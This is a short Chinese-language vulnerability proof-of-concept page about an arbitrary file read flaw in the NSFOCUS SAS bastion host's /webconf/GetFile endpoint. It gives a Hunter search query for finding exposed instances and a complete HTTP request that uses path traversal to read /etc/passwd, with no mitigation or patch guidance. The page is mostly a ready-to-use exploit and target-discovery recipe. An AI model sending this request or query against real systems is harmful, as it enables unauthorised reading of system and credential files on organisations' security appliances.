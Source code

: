 # 绿盟SAS堡垒机GetFile任意文件读取漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">绿盟堡垒机后台存在任意文件读取漏洞，攻击者可通过/webconf/GetFile 接口进行任意文件读取。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 绿盟SAS堡垒机

# 三、资产测绘
+ hunter`app.name="NSFOCUS 绿盟 SAS"`

![1692345776559-f5624e5a-4bb4-49a1-891a-79dd9dc6ddce.png](./img/VzHdqx2ESnEuSNwR/1692345776559-f5624e5a-4bb4-49a1-891a-79dd9dc6ddce-471038.png)

+ 登录页面

![1692345819090-b23ee8fd-4a29-497b-a62a-e7957b5cfd88.png](./img/VzHdqx2ESnEuSNwR/1692345819090-b23ee8fd-4a29-497b-a62a-e7957b5cfd88-820589.png)

# 四、漏洞复现
```plain
GET /webconf/GetFile/index?path=../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: xx.xx.xx.xx
Cookie: PHPSESSID=4d44c08bdf4492b7877f79ffa7122d3c
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

![1692346816258-20ff0e28-140a-4e23-b0f2-76a904fd5c4d.png](./img/VzHdqx2ESnEuSNwR/1692346816258-20ff0e28-140a-4e23-b0f2-76a904fd5c4d-833447.png)



> 更新: 2024-02-29 23:57:15  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/cz6wgk0d6xpv4lmz>